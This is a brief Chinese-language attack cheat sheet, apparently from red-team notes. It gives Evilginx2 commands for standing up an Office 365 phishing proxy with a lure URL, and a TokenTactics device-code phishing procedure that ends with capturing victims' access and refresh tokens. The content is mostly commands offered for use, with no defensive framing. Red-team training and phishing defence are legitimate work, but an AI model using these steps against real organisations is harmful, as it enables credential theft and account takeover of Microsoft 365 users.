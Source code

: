  #### Evilginx2钓鱼
	PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
	: config domain username.corp
	: config ip 10.10.10.10
	: phishlets hostname o365 login.username.corp
	: phishlets get-hosts o365

	为 login.login.username.corp 和 www.login.username.corp 创建一个 DNS 条目，类型 A，指向您的计算机
	复制证书并启用网络钓鱼
	PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
	PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
	: phishlets enable o365

	获取钓鱼网址
	: lures create o365
	: lures get-url 0
 #### 设备代码钓鱼
  	要求：

	Azure AD / Office 365 E3 订阅
	开发：

	导入TokenTactics：PS C:\TokenTactics> Import-Module .\TokenTactics.psd1
	使用 TokenTactics 请求 Azure Graph API 的设备代码：Get-AzureToken -Client Graph
	<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>在钓鱼邮件中替换
	让 TokenTactics 在 PowerShell 窗口中运行并发送网络钓鱼电子邮件
	目标用户将点击https://microsoft.com/devicelogin的链接并填写设备代码表
	享受您的访问令牌和刷新令牌